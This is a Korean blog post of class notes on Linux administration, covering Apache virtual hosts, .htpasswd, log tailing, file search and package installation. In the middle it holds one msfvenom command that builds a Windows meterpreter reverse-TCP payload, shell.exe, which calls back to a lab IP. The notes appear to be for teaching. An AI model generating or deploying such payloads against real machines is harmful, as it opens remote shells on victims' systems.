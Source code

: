 ```yaml
---
layout: post
title:  "2일차 Linux 수업정리"
date:   2019-03-23 
categories:
- Linux
---
```


---
## Virtual host: 하나의 도메인으로 여러 웹 사이트를 운영하는 기법
---
필요조건 - 호스트가 하나거나 도메인이 하나인 경우에 여러 웹 사이트를 운영할 수 있다.  
(IP-based, Name-based, Port-based 기법 사용)  
  
  
  
---
### IP-based 실습
---
<VirtualHost 192.168.100.200:80>  
 ServerAdmin admin@localhost  
 DocumentRoot /var/www/xyz  
 DirectoryIndex index.html  
<Directory /var/www/xyz>  
 Order allow,deny  
 Allow from all  
</Directory>  
</VirtualHost>  
  
  
  
---
### Round Robin, Load Balancing, Fault Tolerance
---
http://192.168.100.129 -> kahn.edu homepage  
                   128 ->        "  
                   127 ->        "  
  
---
  
  
	* pid 관리 중요
	* 랜섬웨어 관련 change root(fake!)
	* sudo는 일시적으로 관리자로 변경
	* su - root 에서 - 붙여야 본인 디렉토리로 이동함
	* selinux는 미 국방부에서 만든것, 고급보안임 (set uid.. sticky bit..)
	* 설정을 다 했는데 인터넷 안되면 nslookup 명령어 
	* echo는 저장된 설정이 있으면 보여줘라 or 파일 만드는 명령어 
  
  
---
## .htpasswd .htaccess
---
> htpasswd -c /etc/httpd/conf/.htpasswd centos  
> htpasswd /etc/httpd/conf/.htpasswd ubuntu  
  
  
startx -> 그래픽으로 보여주는 명령어  
msfvenom -p windows/meterpreter/reverse tcp lhost=192.168.100.131 lport=1234 -f exe > /root/Desktop/shell.exe
  
  
  
---
### 실시간으로 네트워크를 감시하는 명령어 
---
tail -f option! 
tail -f /var/log/syslog  
  
백트랙의 해킹도구가 되는 근거는 바로 promiscuous mode  
SNMP 네트워크 모니터링  
  
*영원히 접근 못하게 막는 기법*  
jail2ban  
fail2ban  
  
  
  
---
### 빈파일 만드는 명령어 
---
touch  
echo >  
ex) touch xyz  
ex) echo > xyzz  
  
  
  
---
### 파일찾는 명령어
---
* find / -type f -name passwd (passwd파일을 찾고자 할때)  
* locate passwd  
* which passwd (명령어를 찾을때는 which가 좋다)  
* whereis passwd (관리자들이 많이 쓴다)  
* find /home -type f -size 0 -exec ls -l {} \; (find 시작위치 type 타입 size 크기 exec 명령어)
  
  
  
---
### dpkg -i
---
* Debian 계열의 Debian, Ubuntu는 파일이 *.deb이다.  
* dpkg -i *.deb로 설치한다.(별도로 이 *.deb파일을 다운받았을때)  
* apt-get install abc하면 abc파일을 설치한다.(바로 웹에서 다운받아서 설치할 때)  
* dpkg -r abc로 삭제한다.  
* RedHat 계의의 Fedora, CentOS는 파일이 *.rpm,*.tar.gz, *.tar.bz2 이다.  
* tar xvfz *.tar.gz tar xvfj *.tar.bz2해서 설치한다.  
  
  
  